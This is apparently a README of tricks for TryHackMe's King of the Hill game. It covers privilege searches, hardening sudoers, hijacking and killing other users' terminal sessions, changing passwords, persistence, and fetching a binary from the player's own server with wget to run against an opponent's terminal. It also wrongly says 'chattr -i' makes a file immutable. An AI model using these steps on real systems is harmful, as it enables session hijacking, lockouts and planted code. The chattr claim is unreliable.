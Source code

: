 # Koth TryHackMe - Tricks

## Examples

## looking for root permissions

* you can use find to search for permissions with root

```
find / -type f \( -perm -4000 -o -perm -2000 \) -print
```


## using chattr

* you can use this to make the file immutable and therefore keep your name in this file.

```
chattr -i /root/king.txt
```

## fixing the vulnerability in /etc/sudoers, for example

```
# User privilege specification
root ALL=(ALL=ALL) ALL
teste ALL=(root) SETENV:NOPASSWD: /usr/bin/git *, /usr/bin/chattr
test1 ALL=(root) NOPASSWD: /bin/su test1, /usr/bin/chattr
```

* here you can see that user teste and teste1 has root permission on the git and su binary, to fix this just remove everything from the teste and teste1 there

```
root ALL=(ALL=ALL) ALL
```

* and it will be like that, so there will be no way to climb privilege by su and git

## using find

* you can use find to look for flags

```
find / -name flag.txt 2>/dev/null
find / -name user.txt 2>/dev/null
find / -name .flag 2>/dev/null
find / -name flag 2>/dev/null
find / -name root.txt 2>/dev/null
```
## full tty shell

* tweaking your shell, if you get a reverse shell and you ctrl + c and your shell closes/stops, this will help you and you can edit, give ctrl + c at will

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
export TERM=xterm
Ctrl + z
stty raw -echo;fg
```

## breaking into the shell of users logged into SSH (NOT RECOMMENDED,DO THIS ONLY IN PRIVATE ROOMS WITH YOUR FRIENDS FOR FUN)

* you can use the following command to break into the shell of other logged in users

```
script -f /dev/pts/1
```

* for you to know which pts (pseudo slave terminal) the user is connected, just use the following command in the terminal: w , then just see which pts the user is and use the command

## how to see who is logged into the system

* you can use the following commands to see who is logged into ssh/system

```
w
who
ps aux | grep pts
```

## killing session of a user logged into ssh/system

* to kill someone's session just use the following command

```
pkill -9 -t pts/1
```

* as explained in some examples above, just put the pts of the user you want to remove from the machine

## changing ssh user password

* to change a user's password just use the following command

```
passwd [UserName]
```

* you can change ssh keys

# Nyancat

## Preparing the Nyancat

> git clone https://github.com/klange/nyancat

> cd nyancat/src

> make

## Sending Nyancat to machine

> python -m SimpleHTTPServer 80 # on your local machine

> wget http://yourip/nyancat # on the KOTH machine

> chmod +x nyancat

> ./nyancat > /dev/pts/# < here where is the # you will place the enemy PTS where I explained it here in this koth tryhackme tricks.


## defending box

* Look for common ways to fix a box, for example: changing ssh keys, changing passwords, look for running processes or even in cronjobs

* Always set your persistence so that even if someone kicks you out, you have multiple ways to get back.

* So start fixing things in the box. Fix security issues, not legitimate services. For example, disabling ssh is NOT allowed unless it is an intentionally broken ssh installation.


## Some useful links

[for privilege escalation](https://gtfobins.github.io/).

[this will help you with reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[this will help you with ciphers, hashes, etc.](https://gchq.github.io/CyberChef/)

## Note 

Don't do anything wrong on the koth machines, please respect all the rules for everyone to have a great experience and a great game

https://docs.tryhackme.com/docs/koth/king-of-the-hill

## more content here soon!
